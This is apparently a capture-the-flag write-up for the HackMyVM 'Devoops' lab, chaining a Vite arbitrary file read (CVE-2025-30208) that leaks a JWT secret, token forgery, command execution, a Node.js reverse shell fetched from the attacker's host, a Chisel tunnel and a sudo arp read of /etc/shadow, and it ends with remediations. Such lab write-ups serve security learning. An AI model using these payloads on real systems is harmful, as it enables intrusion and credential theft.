+++
date = '2026-08-24T16:14:11+03:00'
draft = false
title = 'Devoops — HackMyVM'
tags = ["HackMyVM", "Linux", "Easy", "Vite", "CVE-2025-30208", "JWT", "Node.js", "Gitea", "Chisel", "GTFOBins", "John the Ripper", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Devoops is an easy-rated HackMyVM Linux box built around a Node.js development stack: a Vue.js frontend served by Vite on port 3000 with an Express API behind it. The attack chain started with an arbitrary file read in Vite (CVE-2025-30208) that exposed the application's `.env` file and its JWT signing secret. I forged an admin token, achieved command execution through the restricted `/execute` endpoint, and landed a Node.js reverse shell as `runner`. Enumerating the host revealed a local Gitea instance whose bare git repository still held an SSH private key in its initial commit. I tunneled into the loopback-only SSH service with **Chisel**, authenticated as `hana`, and abused her NOPASSWD `sudo` rights on `arp` to read `/etc/shadow`. Cracking the root hash with **John** gave me full control of the box.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target (192.168.56.109) to identify running services.

```
nmap -sV -sC -p- 192.168.56.109
```

```
PORT     STATE SERVICE REASON         VERSION
3000/tcp open  ppp?    syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, NCP, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.1 403 Forbidden
|     Vary: Origin
|     Content-Type: text/plain
|     Date: Thu, 20 Aug 2026 15:07:45 GMT
|     Connection: close
|     Blocked request. This host (undefined) is not allowed.
|     allow this host, add undefined to `server.allowedHosts` in vite.config.js.
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 204 No Content
|     Vary: Origin, Access-Control-Request-Headers
|     Access-Control-Allow-Methods: GET,HEAD,PUT,PATCH,POST,DELETE
|     Content-Length: 0
|     Date: Thu, 20 Aug 2026 15:07:45 GMT
|_    Connection: close
```

**Key Findings:**

- Only port 3000 is open, serving HTTP traffic; the blocked-host error message fingerprints a Vite dev server.
- GET requests return 403 because the `Host` header is not allowlisted.
- An unauthenticated service fingerprint is unusual for this port range, so I pivoted to browser-based enumeration.

Visiting the site reveals a web application about scaffolding a Vue.js app with an Express backend.



I fuzzed for directories and pages using **feroxbuster**:

```
feroxbuster -u http://192.168.56.109:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404,500
```



```
200      GET      409l     1268w    14271c http://192.168.56.109:3000/node_modules/.vite/deps/dotenv_config.js
200      GET        6l       33w     1705c http://192.168.56.109:3000/@id/__vite-browser-external:child_process
200      GET        6l       33w     1651c http://192.168.56.109:3000/@id/__vite-browser-external:util
200      GET     3619l    12885w   131325c http://192.168.56.109:3000/node_modules/.vite/deps/jsonwebtoken.js
200      GET    23255l    66454w   915023c http://192.168.56.109:3000/node_modules/.vite/deps/express.js
200      GET      130l      348w    21764c http://192.168.56.109:3000/server
200      GET        1l        1w      189c http://192.168.56.109:3000/sign
401      GET        1l        2w       48c http://192.168.56.109:3000/execute
```

The results stand out immediately:

- `/node_modules/.vite/deps/jsonwebtoken.js` confirms the backend signs JWT tokens.
- `/sign` returns something small (189 bytes) — likely a minted token.
- `/execute` answers with a 401, hinting at an authenticated command interface.
- `/server` looks like exposed application source.

Requesting `/sign` hands out a signed JWT without any authentication:



I decoded the token and it carries a `guest` role with a `uid` of `-1`:



The `/server` path exposes the full source of `server.js`, which wires up two interesting endpoints: `/api/sign`, which mints a guest JWT, and `/api/execute`, which verifies the bearer token and demands the `admin` role before passing `req.query.cmd` to `exec()`. Input passes through an `is_safe_command()` function that rejects metacharacters like `;&|`, redirections like `<>`, and substitutions like `` `$() ``:

```js
app.get('/api/sign', (req, res) => {
    return res.json({
        'status': 'signed',
        'data': jwt.sign({
            uid: -1,
            role: 'guest',
        }, process.env.JWT_SECRET, { expiresIn: '1800s' }),
    });
});

const payload = jwt.verify(jwt_raw, process.env.JWT_SECRET);
if (payload.role !== 'admin') {
    return res.status(403).json({ 'status': 'rejected', 'data': 'permission denied' });
}
```

At the bottom of the exposed source sits a base64-encoded blob. Decoding it reproduces the same script but also includes the mappings variable behind `COMMAND_FILTER` — the denylist used to block dangerous commands:



Reviewing the flow confirms that `/api/execute` rejects anything without a valid admin-role JWT:



The dependency bundle also pins the stack version: the site runs Vite 6.2.0.



That version is vulnerable to CVE-2025-30208, which allows arbitrary file read by appending `?import&raw??` to a URL path, bypassing the `server.fs.deny` protection:



## Step 2: Initial Access

### Arbitrary File Read via CVE-2025-30208

I cloned a public PoC for CVE-2025-30208:

```
git clone https://github.com/ThemeHackers/CVE-2025-30208.git
```

After setting the target host and port, the tool scans the target first to confirm the vulnerability:

```
CVE-2025-30208 > set RHOST 192.168.56.109
CVE-2025-30208 > set RPORT 3000
CVE-2025-30208 > run
```



Reading `/etc/passwd` proves the file read works and surfaces a `runner` user on the box:



Extracting `/proc/self/environ` exposes the process environment and maps out the application structure — the project is named `devoops`, runs as `runner`, and lives in `/opt/node`:

```
curl http://192.168.56.109:3000/@fs/proc/self/environ?raw??
```



With the install path known, I pulled the `.env` file, which leaks the `JWT_SECRET` used to sign authentication tokens:

```
curl 'http://192.168.56.109:3000/@fs/opt/node/.env?import&raw??'
```

```
JWT_SECRET='<REDACTED>'
```



Decoding the base64 blob from `/server` also recovered the `COMMAND_FILTER` value, showing exactly which commands the endpoint denies:



### Forging an Admin Token

At this point I had everything needed to abuse `/api/execute`: it requires an admin-role JWT, and I now hold the signing secret.



I forged a token carrying `{ uid: 1, role: "admin" }` signed with the recovered secret:



Command execution works right away:

```
curl -H "Authorization: Bearer <REDACTED>" "http://192.168.56.109:3000/execute?cmd=id"
```



### Reverse Shell

Rather than wrestling with the command filter, I went straight for a Node.js reverse shell since `node` obviously runs on the box:

```js
const net = require('net');
const { spawn } = require('child_process');
const ip = "<my-ip>";
const port = 4444;

const client = new net.Socket();
client.connect(port, ip, () => {
    const sh = spawn('/bin/sh', []);
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
});
```

I hosted the script with a Python HTTP server and prepared to catch the callback:

```
python3 -m http.server
```

Then I fetched the payload onto the target through the RCE:

```
curl -H "Authorization: Bearer <REDACTED>" "http://192.168.56.109:3000/execute?cmd=wget+http://<my-ip>:8000/rev.js+-O+/tmp/rev.js"
```



On my side I set up a **Penelope** listener:



My first attempt pointed at the wrong IP, so I re-uploaded the corrected script under a new name, `rev-2.js` (the listing above shows the fixed version):



Triggering the shell:

```
curl -H "Authorization: Bearer <REDACTED>" "http://192.168.56.109:3000/execute?cmd=node+/tmp/rev-2.js"
```



I now had a foothold on the target as `runner`.

## Step 3: Lateral Movement

### Mining the Local Gitea Instance

Inside `/opt` there is another folder named `gitea` containing a data directory:



I exfiltrated the `gitea.db` database file from the db folder for offline inspection:



Inside the repositories path I found a directory named after the user `hana`, containing `node.git`:



Checking inside `node.git` shows a standard bare repository layout:

```
$ ls -la
total 12
drwxr-xr-x    3 gitea    www-data      4096 Apr 21  2025 .
drwxr-xr-x    3 gitea    www-data      4096 Apr 21  2025 ..
drwxr-xr-x    8 gitea    www-data      4096 Apr 21  2025 node.git
$ cd node.git
$ ls
HEAD
branches
config
description
hooks
info
logs
objects
refs
```

Reading `HEAD` and the logs points at the initial commit:



Inspecting that commit reveals an SSH private key committed to history — even if removed from the working tree, git preserves it forever:

```
git -c safe.directory='*' show 02c0f912f6e5b09616580d960f3e5ee33b06084
```



Reading through `gitea.db` also recovers `hana`'s password hash from the user table:



### Tunneling into SSH

I saved the private key from the commit into a local file; conveniently, it has no passphrase:



Authenticating with the key from my existing session fails because SSH only listens on localhost and isn't exposed externally:



To reach it, I uploaded the **Chisel** binary over my Penelope session:

```
(Penelope)─(Session [4])> upload chisel
[•] ⇥ Uploading to /opt/node
 ⤷ [########################################] 100% (4.5 MBytes/4.5 MBytes) | 900.0 KBytes/s | Elapsed 0:00:05
[+] Uploaded /opt/node/chisel
```

and built a SOCKS tunnel. On my attacker machine I ran the server:

```
./chisel server -p 22 --reverse --socks5
```



On the target I started the client:

```
./chisel client <my-ip>:22 R:socks
```



Since Chisel runs with `--socks5`, I routed SSH through **proxychains** and authenticated as `hana` using the recovered key:

```
proxychains ssh -i private-key hana@127.0.0.1
```



## Step 4: Privilege Escalation

As `hana`, basic enumeration shows a plain user account:

```
devoops:~$ id
uid=1001(hana) gid=100(users) groups=100(users),100(users)
devoops:~$
```

Checking sudo rights:

```
sudo -l
```



`hana` can run `/sbin/arp` with NOPASSWD. **GTFOBins** documents that `arp` can read arbitrary files via its config-file option:



Since no password is required, I abused it to read `/etc/shadow`, targeting the root hash:

```
sudo arp -v -f /etc/shadow
```



I copied the root hash into a file and cracked it with **John**:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



With the recovered password I switched to root successfully:



The `N073.7X7` file on the box collects all the flags along with the application's JWT secret:



## Conclusion

This lab chained an unpatched dev tool, weak secret management, and careless repository hygiene into full root compromise:

1. A Vite dev server on port 3000 exposed its dependencies and source, identifying version 6.2.0.
2. CVE-2025-30208 provided arbitrary file reads, leaking `/opt/node/.env` and the JWT signing secret.
3. I forged an admin JWT and achieved command execution through the filtered `/execute` endpoint.
4. A Node.js reverse shell delivered a foothold as `runner`.
5. The local Gitea instance's bare repository held `hana`'s SSH private key in its initial commit.
6. **Chisel** tunneled into the loopback-only SSH service, granting an interactive session as `hana`.
7. NOPASSWD `sudo` on `/sbin/arp` allowed reading `/etc/shadow`; **John** cracked the root hash.

To secure the environment, the following remediations are recommended:

- **Patch Vite:** upgrade past the affected versions to eliminate CVE-2025-30208, and never expose dev servers in production.
- **Protect secrets:** keep `.env` files out of any web-reachable path and rotate every secret once exposed.
- **Avoid `exec()` on user input:** command endpoints driven by request parameters invite RCE even with filtering in place.
- **Scrub git history:** never commit SSH keys or credentials; rewrite history and rotate keys after any leak.
- **Restrict service exposure:** don't rely on loopback binding alone; firewall internal services and audit tunneling vectors.
- **Apply least privilege:** remove NOPASSWD sudo entries such as `arp` and enforce strong, crack-resistant password hashing.
